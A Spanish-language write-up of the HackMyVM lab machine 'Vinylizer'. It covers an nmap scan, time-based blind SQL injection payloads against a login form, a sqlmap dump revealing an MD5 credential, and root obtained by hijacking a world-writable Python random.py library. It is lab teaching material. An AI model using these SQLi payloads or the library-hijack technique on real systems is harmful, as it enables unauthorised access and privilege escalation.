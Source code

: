 ```yaml
---
layout: default
title: Vinylizer
parent: HackMyVM
grand_parent: Writeups
---
```


# Vinylizer
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22(SSH) y 80(HTTP)

```ruby
nmap -sS -n -Pn --open -p- 192.168.1.90
```
- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

### Puerto 80 (HTTP)

(si hacemos fuzzing de directorios y archivos no encontraremos nada interesante)

Una de las cosas que nos llaman la atencion es un panel de login, donde al ingresar cualquier usuario, nos dara el mensaje "User not found"

![](/assets/img/vinylizer/1.png)

Si interceptamos la peticion con burpsuite nos podemos dar cuenta que existe el parametro "login"

![](/assets/img/vinylizer/2.png)

Podriamos pensar que al darle "login=true" vamos a iniciar sesion pero no es posible, asi que podemos empezar a probar con los parametros, si agremos una comilla simple despues de **username** vemos como nos arroja un HTTP 500

```bash
username=hola'&password=holi&login=
```
```ruby
HTTP/1.0 500 Internal Server Error
Date: Fri, 02 Feb 2024 22:40:00 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 2
Connection: close
Content-Type: text/html; charset=UTF-8
```
Por lo cual podriamos interntar probar SQLi

## Explotacion (SQLi Time-based blind)

Despues de probar un rato, me doy cuenta que existe una vulnerabilidad SQLi a ciegas basada en tiempo. Para corroborar esto podemos ejecutar lo siguiente en el parametro **username**

```ruby
username=hola'+or+sleep(5)--+-&password=holi&login=
```
Nos podemos dar cuenta que es vulnerable por que el servidor tarda 5 segundos en darnos una respuesta, en este punto podemos empezar a enumerar el nombre de la base de datos haciendo uso de este payload:

```ruby
OR IF(SUBSTR(database(),1,1)="v", sleep(5),1)-- -
```

```ruby
username=hola'+OR+IF(SUBSTR(database(),1,1)%3d"v",+sleep(5),1)--+-&password=holi&login=
```

Basicamente lo que hace es extrer 1 letra desde la primera posicion del nombre de la base de datos, lo que se traduciria como la primera letra del nombre de la base de datos, luego lo compara con la letra "v", si esta comparacion devuelve TRUE, entonces tardara 5 segundos en darnos una respuesta, en este caso si tardara por que es la primera letra, y asi debemos der hacerlo letra por letra, para no hacerlo tan largo usare sqlmap. De todas formas si quieres saber como explotar un SQLi time-based manualmente puedes leer este post en mi blog: [https://ic4rta.github.io/2023/03/28/sqli/](https://ic4rta.github.io/2023/03/28/sqli/)

Usando sqlmap encontraremos la base de datos vinyl_marketplace y la tabla usuarios, asi que usando lo siguiente podemos mostrar los datos:

```bash
sqlmap -u "http://192.168.1.90/login.php" --data="username=c4rta&password=c4rta&login=" --batch --dump -T users -D vinyl_marketplace
```
Y encontraremos las credenciales del usuario shopadmin:

usr: shopadmin
pass: 9432522ed1a8fca612b11c3980a031f6 (esta en md5 asi que se debe de crackear)

Y ya tendriamos la flag de user

## Escalada

Si vemos los permisos a nivel de sudoers veremos que podemos ejecutar el script vinylizer

```bash
Matching Defaults entries for shopadmin on vinylizer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User shopadmin may run the following commands on vinylizer:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/vinylizer.py
```

Al ver el script vemos que se estan importando las librerias json y random, por redomendacion, les sugiero que si esta explotando un script de python, vean si las librerias que se estan importanto tienen permisos de escritura

Para buscar archivos con escritura podemos usar este comando:

```bash
find / -type f -writable 2>/dev/null
```

Y veremos que tenemos permisos 777 en **/usr/lib/python3.10/random.py**

```bash
-rwxrwxrwx 1 root root 33221 Nov 20 15:14 /usr/lib/python3.10/random.py
```

### Python Library Hijacking (RW permissions)

Un escenario de python library hijacking, es que se este importando una libreria la cual tiene permisos de escritura, asi que nosotros podemos modificar su contenido para que relice una accion arbitraria, si quieres saber de otros escenarios puedes leer: [https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/)

Ahora modificaremos el codigo de la libreria para ejecutar **/bin/bash -p**

![](/assets/img/vinylizer/3.png)

(este codigo yo lo puse antes de las otras declaraciones de **import os**, en mi caso lo puse al principio)

Y ya somos root

![](/assets/img/vinylizer/4.png)